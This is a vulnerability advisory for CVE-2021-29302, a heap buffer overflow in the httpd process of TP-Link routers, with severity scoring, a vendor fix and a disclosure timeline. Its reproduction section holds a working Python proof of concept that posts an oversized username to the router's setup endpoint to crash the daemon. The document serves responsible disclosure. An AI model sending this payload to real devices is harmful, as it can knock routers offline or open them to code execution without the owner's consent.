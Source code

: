 # Buffer 0verflow in TP-Link Devices

## Overview

- **CVE ID**: [CVE-2021-29302](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29302)

- **Type**: Buffer overflow

- **Vendor**: TP-LINK (https://www.tp-link.com)

- **Products**: WiFi Router, such as [TL-WR802N(US)](https://www.tp-link.com/us/support/download/tl-wr802n/#Firmware), Archer_C50v5_US, etc.

- **Version**: V4_200 <= 2020.06

- **Fix**: [https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip](https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip)

## Severity

**High** 8.1 CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

| CVSS3.1             | Score     | Detail                                                       |
| ------------------- | --------- | ------------------------------------------------------------ |
| ATTACK VECTOR       | Network   | Connect the router through the network                       |
| ATTACK COMPLEXITY   | High      | It is necessary to use carefully constructed messages to attack when the  router has not set a password |
| PRIVILEGES REQUIRED | None      | No permissions are required                                  |
| USER  INTERACTION   | None      | No need for users to click                                   |
| SCOPE               | Unchanged | Null                                                         |
| CONFIDENTIALITY     | High      | RCE                                                          |
| INTEGRITY           | High      | RCE                                                          |
| AVAILABILITY        | High      | RCE                                                          |

## Description

There is a buffer overflow when HTTP body message is parsed by httpd  process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process heap space to overflow.

![burpsuite](pictures/burpsuite.png)

The instruction where the error occurred is in the http binary

![code](pictures/code.png)

Crash log

![crash](pictures/crash.png)

## How to Reproduce (POC)

It is easy to reproduce this problem.

```python
# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 512 + "b" * 1024
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)
 
proxies = {
	"http": "http://127.0.0.1:8080",
}

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers, proxies=proxies)
print response.text
```

## Disclosure Timeline

- 14-Mar-2021 Discoverd the vulnerability
- 15-Mar-2021 Responsibly disclosed vulnerability to vendor
- 19-Mar-2021 Vendor Acknowledged the disclosure & Vendor provided software build to verify the issue
- 24-Mar-2021 Requested for CVE-ID assignment
- 29-Mar-2021 CVE-ID Assigned
- 9-Apr-2021 Update a CVE Record
- 10-Apr-2021 Notify CVE about a publication
